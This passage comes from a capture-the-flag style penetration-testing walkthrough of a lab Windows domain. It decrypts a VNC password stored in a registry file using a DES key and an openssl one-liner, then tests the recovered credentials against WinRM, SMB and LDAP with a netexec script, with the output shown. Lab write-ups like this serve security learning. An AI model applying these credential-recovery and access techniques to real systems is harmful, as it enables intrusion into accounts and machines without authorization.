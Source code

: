 #### Decrypting encrypted text

since this info seems insufficient to move forward, i searched more, and inspected this file:
`IT/Temp/s.smith/VNC Install.reg` on `s.smith` folder
```shell
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
```
decoding it to text:
```shell
6bcf2a4b6e5aca0f -> kÏ*KnZÊ
```
Appears sth unreadable, might be encrypted.

The filename indicates VNC related file, lets find more info about it:
`A .reg file, or registry file, is ==a text file used to modify the Windows Registry==. It can be used to automate VNC (Virtual Network Computing) installations by adding registry keys and values, including settings like the VNC password, connection options, and other configurations. These files simplify the process of configuring VNC, especially when deploying it to multiple machines.`
and also found this:
`"Password"=hex:xx,xx,xx,xx ; Replace with your base64 encoded password`

and based on this: https://github.com/frizb/PasswordDecrypts
i decrypted it, using native linux tools:
```shell
echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
```

```shell
00000000  73 54 33 33 33 76 65 32                           |sT333ve2|
00000008
```
so it seems that this password is `sT333ve2`, and since it was inside the `s.smith` folder, the new creds we obtained are:
```shell
s.smith
sT333ve2
```

#### Logging in as `s.smith`

Lets check again with nxc (via my automated script) towards what services we can login with those creds:
https://github.com/ch3ckkm8/auto_netexec
```shell
./auto_netexec_bulk_creds_checker.sh cascade.htb 's.smith' 'sT333ve2'
```

```shell
[*] Checking if winrm port 5985 is open on cascade.htb...
[+] Port 5985 open — checking winrm with netexec
WINRM       10.10.10.182    5985   CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 (name:CASC-DC1) (domain:cascade.local)
WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\s.smith:sT333ve2 (Pwn3d!)

[*] Checking if smb port 445 is open on cascade.htb...
[+] Port 445 open — checking smb with netexec
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\s.smith:sT333ve2 

[*] Checking if ldap port 389 is open on cascade.htb...
[+] Port 389 open — checking ldap with netexec
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
LDAP        10.10.10.182    389    CASC-DC1         [+] cascade.local\s.smith:sT333ve2 

[*] Checking if rdp port 3389 is open on cascade.htb...
```